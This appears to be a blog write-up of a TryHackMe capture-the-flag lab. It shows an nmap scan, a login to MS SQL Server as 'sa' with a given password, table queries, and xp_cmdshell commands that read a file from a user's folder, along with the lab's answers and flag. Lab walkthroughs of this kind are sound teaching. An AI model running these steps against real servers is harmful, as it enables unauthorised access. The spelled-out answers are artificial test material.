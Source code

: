 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 11 - Where Are The Reindeers?"
date:   2021-12-18 12:30:00 +1000
excerpt: Learning about nmap.
---
```


This is a write up for the Day 11 - Where Are The Reindeers? challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### There is an open port related to MS SQL Server accessible over the network. What is the port number?

Run `nmap -sV 10.10.160.62 -v -Pn`.

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_01.jpg">

> Answer: **1433**

### If the connection is successful, you will get a prompt. What is the prompt that you have received?

Run `sqsh -S 10.10.160.62 -U sa -p t7uLKzddQzVjVFJp`

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_02.jpg">

> Answer: **1>**

### We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_03.jpg">

> Answer: **Rudolph**

### Check the table schedule. What is the destination of the trip scheduled on December 7?

Run `SELECT * FROM reindeer.dbo.schedule`

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_04.jpg">

> Answer: **Prague**

### Check the table presents. What is the quantity available for the present “Power Bank”?

Run `SELECT * FROM reindeer.dbo.presents`

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_05.jpg">

> Answer: **25000**

### There is a flag hidden in the grinch user's home directory. What are its contents?

Run `xp_cmdshell 'dir c:\users\grinch\Documents`

This shows a file called `flag.txt`.

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_06.jpg">

Run `xp_cmdshell 'type c:\users\grinch\Documents\flag.txt`

<img src="{{ site.baseurl }}/assets/images/2021-12-18-advent-of-cyber-day-11/d11_07.jpg">

> Answer: **THM{YjtKeUy2qT3v5dDH}**

### Recap

In this task we learnt:
 * How to conduct port scans
 * Using sqsh to interact with a MS SQL Server
 * Executing commands with xp_cmdshell to read outputs using sqsh
 